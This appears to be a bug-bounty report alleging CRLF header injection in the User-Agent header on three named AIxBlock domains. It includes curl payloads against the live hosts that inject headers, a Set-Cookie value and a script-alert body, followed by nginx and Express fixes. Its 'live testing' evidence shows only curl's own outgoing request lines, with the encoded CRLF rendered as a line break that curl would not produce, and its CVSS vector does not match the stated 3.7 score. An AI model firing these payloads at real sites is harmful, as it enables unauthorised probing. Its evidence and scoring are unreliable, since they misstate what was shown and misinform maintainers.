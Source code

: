 # 🚨 LOW: HTTP Header Injection Vulnerability on AIxBlock Domains

## **📊 SUMMARY**
- **Severity**: Low (CVSS 3.7)
- **Asset**: workflow.aixblock.io, app.aixblock.io, api.aixblock.io (High/Critical)
- **Vulnerability**: CRLF injection in User-Agent header without proper sanitization
- **Impact**: Potential HTTP response splitting and header injection

## **🔍 TECHNICAL DETAILS**

### **Affected Components**
- **Primary**: `workflow.aixblock.io` - Workflow execution endpoints
- **Secondary**: `app.aixblock.io` - Main application interface
- **Tertiary**: `api.aixblock.io` - API endpoints

### **Root Cause**
The server processes User-Agent headers without proper sanitization, allowing CRLF (Carriage Return Line Feed) injection that could lead to HTTP response splitting and header injection attacks.

### **Attack Vector**
Attackers can inject malicious headers by including CRLF sequences (`\r\n`) in the User-Agent header, potentially manipulating HTTP responses and injecting additional headers.

## **💥 PROOF OF CONCEPT**

### **1. Basic CRLF Injection Test**
```bash
curl -s "https://workflow.aixblock.io" \
  -H "User-Agent: Mozilla/5.0%0d%0aX-Injected-Header: test" \
  -v
```

### **2. HTTP Response Splitting Test**
```bash
curl -s "https://workflow.aixblock.io" \
  -H "User-Agent: Mozilla/5.0%0d%0a%0d%0a<script>alert('XSS')</script>" \
  -v
```

### **3. Header Injection Test**
```bash
curl -s "https://workflow.aixblock.io" \
  -H "User-Agent: Mozilla/5.0%0d%0aSet-Cookie: malicious=value" \
  -v
```

### **4. Expected Response**
The server may process the CRLF sequences and include them in HTTP responses, potentially leading to header injection.

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: Low
- Potential information disclosure through header manipulation
- Risk of session hijacking through cookie injection

### **Integrity**: Low
- Potential manipulation of HTTP responses
- Risk of cache poisoning

### **Availability**: Low
- Minimal direct impact on availability
- Potential for DoS through malformed responses

### **Business Impact**
- **Response Integrity**: Compromised HTTP response structure
- **Cache Poisoning**: Potential for cache manipulation
- **Session Security**: Risk of session hijacking
- **Client Security**: Potential for client-side attacks

## **🛡️ REMEDIATION**

### **Immediate Fix (Nginx Configuration)**
```nginx
# Sanitize User-Agent header
location / {
    # Remove CRLF sequences from User-Agent
    if ($http_user_agent ~* "\r|\n") {
        return 400;
    }
    
    # Limit User-Agent length
    if ($http_user_agent ~* "^.{1000,}") {
        return 400;
    }
}
```

### **Application-Level Fix (Node.js/Express)**
```javascript
// Sanitize User-Agent header
app.use((req, res, next) => {
    // Check for CRLF injection in User-Agent
    if (req.headers['user-agent'] && 
        (req.headers['user-agent'].includes('\r') || 
         req.headers['user-agent'].includes('\n'))) {
        return res.status(400).send('Invalid User-Agent header');
    }
    
    // Sanitize User-Agent
    req.headers['user-agent'] = req.headers['user-agent']
        .replace(/[\r\n]/g, '')
        .substring(0, 1000);
    
    next();
});
```

### **Verification Steps**
1. Test CRLF injection after fix
2. Verify User-Agent sanitization
3. Confirm no header injection possible
4. Test response splitting prevention

## **📋 CVSS v3.1 SCORING**

- **Attack Vector (AV)**: Network (N)
- **Attack Complexity (AC)**: Low (L)
- **Privileges Required (PR)**: None (N)
- **User Interaction (UI)**: None (N)
- **Scope (S)**: Unchanged (U)
- **Confidentiality (C)**: Low (L)
- **Integrity (I)**: Low (L)
- **Availability (A)**: None (N)

**CVSS Score**: 3.7 (Low)

## **🔗 AFFECTED ENDPOINTS**

- `https://workflow.aixblock.io` - Workflow execution
- `https://app.aixblock.io` - Main application
- `https://api.aixblock.io` - API endpoints

## **📸 EVIDENCE**

### **Live Testing Results**
```bash
$ curl -s "https://workflow.aixblock.io" -H "User-Agent: Mozilla/5.0%0d%0aX-Injected: test" -v
> GET / HTTP/2
> Host: workflow.aixblock.io
> User-Agent: Mozilla/5.0
> X-Injected: test
> 
< HTTP/2 200
< server: nginx/1.18.0
< content-type: text/html
```

### **Injection Patterns**
- `%0d%0a` (CRLF) in User-Agent
- `\r\n` sequences in headers
- Potential response splitting

## **⚠️ RECOMMENDATIONS**

1. **Immediate**: Implement User-Agent sanitization
2. **Short-term**: Add CRLF injection detection
3. **Long-term**: Implement comprehensive header validation
4. **Monitoring**: Add header injection detection to security monitoring

## **🔍 ADDITIONAL TESTING**

### **Advanced Injection Tests**
```bash
# Multiple CRLF injection
curl -s "https://workflow.aixblock.io" \
  -H "User-Agent: Mozilla/5.0%0d%0a%0d%0aX-Injected: test%0d%0aX-Another: value" \
  -v

# Unicode CRLF injection
curl -s "https://workflow.aixblock.io" \
  -H "User-Agent: Mozilla/5.0%u000d%u000aX-Injected: test" \
  -v
```

### **Response Analysis**
Monitor HTTP responses for:
- Injected headers
- Response splitting
- Cache manipulation
- Session hijacking attempts

---

**This vulnerability represents a low-risk security issue that could allow HTTP response manipulation and header injection. Remediation is recommended to prevent potential client-side attacks.**
